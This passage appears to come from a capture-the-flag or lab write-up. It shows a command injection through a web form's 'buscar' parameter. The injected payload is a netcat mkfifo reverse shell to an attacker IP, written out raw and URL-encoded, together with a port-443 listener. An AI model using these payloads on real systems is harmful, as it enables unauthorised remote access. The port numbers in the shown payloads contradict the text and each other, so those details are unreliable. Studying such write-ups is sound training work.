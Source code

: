 Now we try a bash reverse shell. We look at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md) for a reverse shell. After trying and failing with a bash reverse shell we try the mostly reliable nc reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.14 4242 >/tmp/f
```

We add this to the buscar parameter and url-encode it so we get

```bash
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.0.14+2424+>/tmp/f
```



We still got nothing but we can see the command tries to connect and after a while it has a time-out. So there has to be some kind of firewall or ids that prevents outgoing connections. We can try random higher ports but it seems like it's blocked. So let's try with some well-known ports every web-server may have open (since it's running and hosting a web-site). We start with port 443 (https) and we get in at the first attempt.

On the attacker machine start nc listener on port 443:

```
nc -nlvp 443
```

The buscar-parameter value we change the port, add it in burpsuite and hit send

```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.0.14+2424+>/tmp/f
```

![image-20211116233727649](assets/image-20211116233727649.png)

And we have a shell:

![image-20211116233857658](assets/image-20211116233857658.png)
